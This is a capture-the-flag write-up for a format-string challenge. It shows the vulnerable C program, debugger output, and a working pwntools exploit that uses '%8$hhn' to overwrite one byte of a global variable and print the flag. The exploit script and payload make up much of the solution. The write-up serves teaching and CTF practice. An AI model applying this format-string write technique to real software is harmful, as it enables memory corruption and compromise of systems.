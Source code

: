 # Format

The task:

>A generic format string challenge, but requiring a bit of finesse. Can you pull it off?
>
> nc challenges.ctfd.io 30266

We were given the source code of a binary running on ``challenges.ctfd.io:30266``:

```c
#include <stdio.h>
#include <stdint.h>

uint64_t num;

void vuln() {
	char buf[64];
	puts("Give me some text.");
	fgets(buf, sizeof(buf), stdin);
	printf("You typed ");
	printf(buf);
	printf("!\n");
}

/* You don't need to understand how this works
 *
 * In case you're curious, this loads the pointer guard from the TCB. This
 * value was chosen because it is randomized and can be accessed without
 * following any pointer chains in this object's memory. */
#define LOAD_SECRET(x) \
	__asm__ volatile ( \
		"mov %%fs:0x30, %0;" \
		: "=r" (x) \
	)

void check_num() {
	uint64_t goal;
	LOAD_SECRET(goal);
	__asm__ volatile (
		"mov $0x42, %b0;"
		: "+r" (goal)
	);
	if (num != goal) {
		puts("Nope, try again");
	} else {
		puts("Congrats! here's your flag");
		char flagbuf[64];
		FILE* f = fopen("./flag.txt", "r");
		fgets(flagbuf, sizeof(flagbuf), f);
		fclose(f);
		puts(flagbuf);
	}
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);

	LOAD_SECRET(num);
	/* clear the low byte - that way there is no random chance of
	 * getting the flag without doing anything */
	__asm__ volatile (
		"mov $0, %b0;"
		: "+r" (num)
	);

	vuln();

	check_num();

	return 0;
}

```

The program's ``check_num`` function will always fail and we'll never get the flag unless we abuse the format string bug because:
* It takes a random number --> put it in ``num`` (using the ``LOAD_SECRET`` macro)
* Calling ``check_num``, loading the secret again but comparing it with the result of ``num+0x42`` (or, ``goal`` in the source code)
* Obviously ``num`` !== ``num+0x42`` so the program fails

Inside ``check_num``, the ``if (num != goal)`` statement determines whether we're getting the flag or not.

After having a closer look at it in gdb, this is how it looks like:

```
0x0000000000401260 in check_num ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────────────────────────────────────────────────────────────REGISTERS──────────────────────────────────────────────────────────────────────────────────────────]
*RAX  0x5c278a023d35d342
 RBX  0x0
 RCX  0x7ffff7b042c0 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x7ffff7dd3780 (_IO_stdfile_1_lock) ◂— 0x0
 RDI  0x1
 RSI  0x7ffff7dd26a3 (_IO_2_1_stdout_+131) ◂— 0xdd3780000000000a /* '\n' */
 R8   0x7ffff7fe9700 ◂— 0x7ffff7fe9700
 R9   0x12
 R10  0x25b
 R11  0x246
 R12  0x4010e0 (_start) ◂— endbr64
 R13  0x7fffffffe200 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x4012f0 (__libc_csu_init) ◂— endbr64
 RSP  0x7fffffffe0c0 ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x401260 (check_num+32) ◂— cmp    qword ptr [rip + 0x2e19], rax
[───────────────────────────────────────────────────────────────────────────────────────────DISASM────────────────────────────────────────────────────────────────────────────────────────────]
   0x401245 <check_num+5>      mov    rax, qword ptr fs:[0x28]
   0x40124e <check_num+14>     mov    qword ptr [rsp + 0x48], rax
   0x401253 <check_num+19>     xor    eax, eax
   0x401255 <check_num+21>     mov    rax, qword ptr fs:[0x30]
   0x40125e <check_num+30>     mov    al, 0x42
 ► 0x401260 <check_num+32>     cmp    qword ptr [rip + 0x2e19], rax <0x404080> 
 ```

The values of ``num`` and ``goal``

```
+pwndbg> x ($rip + 0x2e19)
0x404080 <num>: 0x5c278a023d35d300

+pwndbg> p/x $rax
$3 = 0x5c278a023d35d342
```

As can be seen above, they are almost identical. The only difference is the last byte. 

So, our goal here is to overwrite the least significant byte of ``num`` (located in the .bss section)
```
+pwndbg> info symbol 0x404080
num in section .bss of /tmp/format
```


## Solution

Shift the stack accordingly and use the ``hhn`` format specifier to overwrite only the least significant byte of ``num``

```py
from pwn import *

r = remote('challenges.ctfd.io', 30266)

payload =  b'%32x%33xQ'   # padding to reach 0x42 bytes
payload += b'%8$hhn|'     # writing to the 8th element on the stack (which is "num"'s address, below)
payload += p64(0x404080)  # .bss <num>

r.sendlineafter('text', payload)
r.recvuntil('flag')
print(r.recv().decode('utf-8'))
```

Output:
```
nactf{d0nt_pr1ntf_u54r_1nput_HoUaRUxuGq2lVSHM}
```
